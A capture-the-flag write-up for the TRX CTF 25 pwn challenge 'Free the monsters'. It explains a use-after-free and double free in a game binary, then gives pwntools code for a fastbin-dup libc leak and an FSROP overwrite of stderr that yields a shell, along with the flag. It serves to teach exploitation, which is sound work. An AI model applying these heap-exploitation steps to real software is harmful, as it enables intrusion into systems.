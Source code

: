 ```yaml
---
title: TRX CTF 25 - Free the monsters
date: '2025-02-26'
lastmod: '2025-02-26T15:00:00+02:00'
categories:
- writeup
- trxctf25
tags:
- pwn
- double free
- fastbin-dup
authors:
- Lorenzinco
---
```


![Preview text](/static/nomectf/asset/free_the_monsters/prompt.png)

The challenge's structure is wrapped in a quest embarking game, the player is required to select some quest from the quest list change his equipment and embark, at any given moment during the preparation it can also check it's statistics.

Playing around with the binary already reveals some vulnerabilities:

```
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 1
Enter weapon name: hammer
Enter weapon attack: 10
Enter weapon defense: 10
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 4
Select equipment to change:
1. Helmet
2. Chest
3. Gloves
4. Waist
5. Legs
6. Weapon
7. Jewel
8. Earing
9. Charm
10. Talisman
11. Kinsect
12. Palico
13. Palamute
> 6
What do you want to do?
1. Equip weapon
2. Unequip weapon
> 2
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
> 1
Name: Lorenzinco
Level: 1
Weapon: hammer

Attack: 24881791099
Defense: 10668836035454024818
====================================
1. Check player status
2. Select a quest
3. Embark on a quest
4. Change equipment
5. Exit
>
```

All of the pointers inside the player's profile do not get set to `NULL` when freed. Given the heap blocks structure, in which the next pointer gets stored in the data section of the current chunk [(click here to find more details about this)](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/), this gives already the ability to leak some heap addresses.

![Preview text](/static/nomectf/asset/free_the_monsters/free.png)

In the same part of the code we can also see that the code does not check whether that pointer was freed already before freeing it, this means we also got a **double free** to play around.

When allocating the chunks we also get to decide that to write in them, since the binary asks for the user to send the name, the attack and the defense of each equipment, conviniently stored inside the chunk.

Now, here comes the first problem: the chunk size. Each chunk is only `0x30` bytes wide. This means that if fill the tcache bins it fill fit right into the fast bin, not inside the unsorted one, which is where we want it to be.

To make a chunk fit into the unsorted bin we must therefore find a way to modify its size, this can be achieved by fast-bin duping, which is filling tcache, double freeing a chunk into a fastbin and change the next address to hit a chunk's metadata, by writing on it we're able to change the size of the chunk itself.

Keep in mind that due to the checks that get done when freeing, `prev_size` should be valid as well as `prev_inuse` flag which needs to be set to `1`.

The libc version is `2.41` therefore each heap pointer is encoded ( same for all libcs past 2.35 ).

```py
#FAKE AN UNSORTED BIN CHUNK TO LEAK LIBC
for i in range(1, 14):
    equip(i, p64(heap>>12)*4, heap>>12, 0)
for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"A", 0, 0)
equip(3, b"A", (heap>>12)^(heap+0x2c0), 0)
for i in range(3):
    equip(3, p64(0)+p64(0x441), 0, 0)
for i in range(6):
    equip(3, b"B", 0, 0)

unequip(2)  
view()
r.recvuntil(b"Attack: ")
r.recvuntil(b"Attack: ")
libc.address = int(r.recvline()) - 0x211b20 # MAIN ARENA
log.info(hex(libc.address))
```

Having retrieved the libc base address now we can take two intended paths:

-   The angry FS-Rop cool as fuck road
-   The boring and lame environ and onegadget path

##### Note: The environ leak requires to be expecially carefull with the pointers inside the heap, when duping a chunk and modifying its next we might break the tcache, preventing us to from doing it again.

That said, i chose to writeup the cool as fuck road which involves writing a fake file pointer on the heap and then overwriting that pointer into `__std_err` (or whatever file pointer, stderr is handy since is not used in the context of this binary).

##### If you have no idea what this means i highly encourage you to read [this](https://blog.kylebot.net/2022/10/22/angry-FSROP/), it contains far more precise and usefull information about fs exploits that i could ever sum up in this writeup.

As said, we are going to overwrite `std_err`:

```py
#OVERWRITE STDERR->CHAIN
for i in range(1, 12):
    equip(i, p64(heap>>12)*4, 0, 0)

for i in range(3, 10):
    unequip(i)
unequip(10)
unequip(11)
unequip(10)

for i in range(7):
    equip(3, b"\0", 0,0)

equip(3, b"A", (heap>>12)^(libc.sym._IO_2_1_stderr_+0x60), 0)
for i in range(3):
    equip(3, p8(3), 0, heap+0x7a0) # heap pointer to our custom file struct

for i in range(7):
    equip(3, b"\0", 0,0)
```

and write a file struct containing the vtable pointer modified, pwntools has this fancy function to do this automatically called `fsrop()` so we don't have to go through the hassle of filling the vtable offsets ourself, it's like a one gadget.

```py
#WRITE FAKE FP ON THE HEAP
payload = fsrop(heap+0x7a0)+b"\0"*0x200
# redistribute payload among fields
for i in range(7):
    equip(3, payload[16:16+0x20], u64(payload[:8]), u64(payload[8:16]))
    payload = payload[16+0x30:]
```

Note: this payload gets truncated each time a chunk metadata appears on the heap, so some fields of the file struct are goin to be broken and filled with garbage. They are not essential at all so we want to start writing the struct from an offset from which the important part (vtable pointer) is not overwritten with garbage, that is `0x10`.

![Preview text](/static/nomectf/asset/free_the_monsters/gdb_fs.png)

Done! All there's left to do is to trigger `_IO_flush_all` by exiting the binary and we popped a shell!

`TRX{wh0_th3_fuck_kn0w5_4b0u7_f457B1n5?!_153CA0}`